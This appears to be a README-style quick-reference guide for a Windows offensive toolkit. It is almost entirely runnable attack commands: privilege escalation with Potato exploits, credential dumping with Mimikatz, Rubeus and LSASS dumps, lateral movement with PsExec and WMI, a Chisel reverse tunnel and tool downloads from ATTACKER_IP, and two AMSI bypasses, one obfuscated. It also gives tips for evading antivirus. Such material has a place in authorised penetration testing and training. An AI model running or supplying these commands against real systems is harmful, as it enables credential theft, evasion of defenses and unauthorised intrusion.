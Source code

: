 # Windows Tools Usage Guide

## Directory Structure
```
windows-tools/
├── privilege-escalation/   # Potato exploits, PrintSpoofer, SharpUp
├── enumeration/            # WinPEAS, Seatbelt, SharpHound, PowerUp
├── credentials/            # LaZagne, Mimikatz, Rubeus, SharpDump
├── lateral-movement/       # PsExec, SharpRDP, Invoke-TheHash
├── persistence/            # SharPersist
└── misc/                   # Netcat, Chisel, PowerView, webshells
```

## Quick Reference

### Privilege Escalation
```powershell
# JuicyPotato (Windows Server 2016 and earlier)
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {CLSID}

# GodPotato (Windows Server 2019+)
GodPotato-NET4.exe -cmd "cmd /c whoami"

# PrintSpoofer
PrintSpoofer64.exe -i -c cmd

# SharpUp (enumerate privesc opportunities)
SharpUp.exe audit
```

### Enumeration
```powershell
# WinPEAS
winPEASx64.exe

# Seatbelt (all checks)
Seatbelt.exe -group=all

# SharpHound (BloodHound collection)
SharpHound.exe -c All

# PowerUp
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### Credential Dumping
```powershell
# LaZagne (all passwords)
LaZagne.exe all

# Mimikatz
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
lsadump::sam

# Rubeus (Kerberoast)
Rubeus.exe kerberoast /outfile:hashes.txt

# SharpDump (dump LSASS)
SharpDump.exe
```

### Lateral Movement
```cmd
# PsExec
PsExec.exe \\TARGET -u DOMAIN\user -p password cmd

# WMI
wmic /node:TARGET /user:DOMAIN\user /password:password process call create "cmd.exe"
```

### Tunneling
```bash
# Chisel (on attacker)
./chisel server -p 8080 --reverse

# Chisel (on target)
chisel.exe client ATTACKER_IP:8080 R:socks
```

## Transfer Methods

### HTTP Server
```bash
# On attacker
python3 -m http.server 8000

# On target
certutil -urlcache -f http://ATTACKER_IP:8000/tool.exe tool.exe
# Or
powershell -c "Invoke-WebRequest -Uri http://ATTACKER_IP:8000/tool.exe -OutFile tool.exe"
```

### SMB Server
```bash
# On attacker
impacket-smbserver share . -smb2support

# On target
copy \\ATTACKER_IP\share\tool.exe .
```

### Base64 Transfer
```bash
# On attacker
base64 tool.exe > tool.b64

# On target (PowerShell)
$b64 = Get-Content tool.b64
[IO.File]::WriteAllBytes("tool.exe", [Convert]::FromBase64String($b64))
```

## PowerShell AMSI Bypass
```powershell
# Option 1
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Option 2
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Notes
- Always check Windows version compatibility
- Use appropriate .NET version for GodPotato
- Transfer tools via base64 if AV blocks direct download
- Obfuscate PowerShell with Invoke-Obfuscation if needed
- Some tools may be flagged by Windows Defender

